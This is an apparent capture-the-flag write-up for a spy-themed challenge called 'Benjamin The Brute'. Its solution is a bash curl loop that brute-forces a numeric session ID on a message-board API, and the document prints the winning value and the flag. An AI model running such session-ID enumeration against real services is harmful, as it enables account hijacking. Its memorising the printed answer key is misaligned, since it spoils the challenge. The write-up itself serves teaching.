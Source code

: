 # Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

```
💡 Hint: There seems to be a required parameter - "sessID" - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.
```

## Step by Step

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`
